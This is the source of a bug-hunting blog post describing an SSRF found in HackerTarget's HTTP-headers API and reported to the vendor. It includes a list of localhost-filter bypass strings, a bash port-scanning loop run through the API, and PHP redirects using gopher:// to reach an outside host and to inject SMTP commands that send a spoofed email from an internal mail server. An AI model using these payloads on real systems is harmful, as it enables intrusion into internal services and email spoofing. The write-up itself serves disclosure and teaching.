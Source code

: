 ```yaml
---
layout: post
title: "Hacking the Hackers: Leveraging an SSRF in HackerTarget"
author: Corben Leo
---
```

### &#128187;&nbsp;Introduction:
This is a write-up of an SSRF I accidentally found in HackerTarget and leveraged to get access to internal services! Please **note** that they **don't** have an active bug bounty program.<br>
<h4>&#129300; What is HackerTarget?</h4>
<a href="https://hackertarget.com" class="link">HackerTarget</a> is a service that provides access to online vulnerability scanners and tools used by many security professionals and "makes securing your systems easier". They also are the creators of <a href="https://dnsdumpster.com/" class="link">DNSDumpster</a>, which is utilized in several recon tools.
<br><br>
<h4>&#128565; SSRF:</h4>
*Server-Side Request Forgery* (SSRF) is a vulnerability in which an attacker can send a controlled, crafted request via a vulnerable application. We can communicate with different services running on different protocols by utilizing URI schemes such as dict://, gopher://, ftp://, and many more. Getting a server to make a request isn't a vulnerability in itself, but becomes one when you can make requests to things you wouldn't or shouldn't normally have access to such as internal networks or internal services.
<br><br>
### &#128270;&nbsp;Finding the vulnerability:
I was using DNSDumpster for recon during a bug hunting session, and I noticed there was a button of a globe similar to &#127758; that said "Get HTTP Headers":
<br>
<br>
![HT-HTTPHeaders](/images/ht-httpheaders.png "HTTP Headers function")
<br><br>
It made a call to `https://api.hackertarget.com/httpheaders/?q=<target>` and displayed the HTTP Headers of a simple **GET** request sent to the target server.
<br><br>
![HT-API-Call](/images/api-result.png "HackerTarget")
<br><br>I was obviously intrigued, so I tried querying 127.0.0.1! The API dumped the HTTP request and the query went through! I then tried to see if I could get the SSH version by querying **127.0.0.1:22**
<br><br>Response:<br><br>
![HT-SSH](/images/ht-ssh.png "HackerTarget")
<br><br>
I initially reported it as is, knowing I could hit internal services if there were any. They thanked me for the heads up and told me to check the patch they issued. I checked it, and it was easy to bypass: it was merely blocking 127.0.0.1. Here are a few of the bypasses I used:
```
0
127.00.1
127.0.01
0.00.0
0.0.00
127.1.0.1
127.10.1
127.1.01
0177.1
0177.0001.0001
0x0.0x0.0x0.0x0
0000.0000.0000.0000
0x7f.0x0.0x0.0x1
0177.0000.0000.0001
0177.0001.0000..0001
0x7f.0x1.0x0.0x1
0x7f.0x1.0x1
localtest.me
```
I informed them that there **isn't** a way to validate the query just by using string-based checks, so I suggested that they **resolve** the domains and **check** them against local IP ranges. They agreed and said they would think about it.
<br><br>
About 10 days later I asked if they had issued another patch or not, and the response was:
> "It is on my todo list. Not critical though as there are no local services that could be hit with it."

<center>
<h4>&#128527;&nbsp;challenge accepted.</h4>
</center>
<br>

### &#128526;&nbsp;Leveraging like a Boss
I decided to write a bash script that queried the API with one of the bypasses and with a port number to see if I could see what internal services it was running:
```bash
#!/usr/bin/env bash
for port in `seq 1 9999`
do
	echo -e "\n\n[+] Checking Port: "$port"\n"
	curl 'https://api.hackertarget.com/httpheaders/?q=http://'$1':'$port && echo -e "\n"
done
```
I ran it: `âžœ root@pwn  ~  ./ht 0177.1`

HackerTarget limits 25 API queries per IP, so my script only showed the ports 1 - 25. The only responses I got were from SSH running on port 22 and I luckily got a response from the SMTP server on port 25, which I had totally overlooked before!<br><br>
![HT-POSTFIX](/images/ht-postfix.png "HackerTarget")
<br>
#### &#128104;&zwj;&#128187; &nbsp;SMTP?
 - SMTP stands for <font id="highlighter">Simple Mail Transfer Protocol</font>.
 - It is a <a href="https://en.wikipedia.org/wiki/Internet_protocol_suite" rel="noopener noreferrer" target="_blank"><font id="highlighter">TCP/IP</font></a> protocol that's used for sending emails. (who would've guessed? &#128514;)
 - Usually it's used along with either <a target="_blank" rel="noopener noreferrer" href="https://en.wikipedia.org/wiki/Post_Office_Protocol"><font id="highlighter">pop3</font></a> or<a target="_blank" rel="noopener noreferrer" href="https://en.wikipedia.org/wiki/Internet_Message_Access_Protocol"> <font id="highlighter">imap</font></a>, which are used to receive emails.


I knew I would be able to hit the service with this SSRF, but I wasn't positive that I would be able to send the valid commands needed to send emails from it. I then tried deducing which wrappers were supported and enabled besides **http://** and **https://**. <br><br>
I tried using <font id="highlighter2">dict://</font> right away and was able to get the libcurl version, but that wasn't very helpful. Next, I created a PHP file on my server to initiate a redirect to another port with the <font id="highlighter2">gopher://</font> wrapper:<br>
```php
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>
```
<br>
In a nutshell, the gopher:// protocol sends 1 character, a new line (CR+LF), and the remaining data, which allows us to send a **multiline request**. <br><br>
I started netcat and checked the API again: `https://api.hackertarget.com/httpheaders/?q=http://C0RB3N.pro/redirect.php`. It followed the redirect  and I received a multiline request on port 1337!
<br><br>This means I could send valid commands to the internal SMTP server!

### &#127881;&nbsp;The Finale
I created another PHP file on my server that would redirect the API to the internal SMTP server and issue the valid SMTP commands!
```php
<?php
        $commands = array(
                'HELO hackertarget.com',
                'MAIL FROM: <admin@hackertarget.com>',
                'RCPT To: <C0RB3N@oou.us>',
                'DATA',
                'Subject: @C0RB3N!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```
<br><br>
I changed the query one last time: `https://api.hackertarget.com/httpheaders/?q=http://C0RB3N.pro/smtp.php`
<br><br>
I went to my email, reloaded it once.
<br><br>
A new email popped up from "<font id="highlighter">admin@hackertarget.com</font>" with the subject "<font id="highlighter">@C0RB3N</font>" and the message was "<font id="highlighter2">Corben was here, woot woot!</font>"
<br><br>
After yelling 'heck yeah!', I created a quick proof-of-concept video and I sent it over to HackerTarget.
<br> <br>Here's the video <font color="#2EB03D">&#128373;&#65039;</font><br>
<iframe width="580" height="370" src="https://www.youtube.com/embed/F_sC_OrSkIc" frameborder="0" gesture="media" allow="encrypted-media" allowfullscreen></iframe>
<br><br>The response?
> Nice work. Thanks for the PoC. I will finish mitigation on this and check other inputs too now.... you have opened my eyes to SSRF :)


<br><br>
It was a blast to leverage an SSRF on a target that everyone knows of and uses often!<br><br>

### &#9888;&#65039;&nbsp;Note:
They **DO NOT** have a bug bounty program, so please **DO NOT** test them without their permission!
<br><br>
Thanks for reading,<br><br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/C0RB3N"  target="_blank" rel="noopener noreferrer">https://github.com/sxcurity</a>
